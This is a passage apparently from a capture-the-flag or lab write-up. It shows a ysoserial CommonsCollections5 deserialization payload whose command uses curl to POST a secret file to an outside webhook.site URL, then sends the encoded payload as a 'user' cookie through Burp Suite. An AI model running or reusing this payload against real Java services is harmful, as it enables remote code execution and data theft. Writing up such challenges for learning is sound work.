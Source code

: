**Data Exfiltration Payload:**

```bash
java -jar ysoserial-all.jar CommonsCollections5 \
'curl -X POST -H "Content-Type: text/plain" -H "X-Flag: SecretFormula" \
--data-binary @/safebox/secretformula.txt \
https://webhook.site/57c43e5e-3e0f-498f-b3fc-325a242c1301' \
| base64 -w0 > webhook_main.b64
```

<img src="images/image_12.png" alt="Payload Generation" width="600">

**Execution via Burp Suite:**
Setting the malicious payload as `user` cookie and requesting `/secretformula`:

<img src="images/image_13.png" alt="Burp Suite Request Execution" width="600">
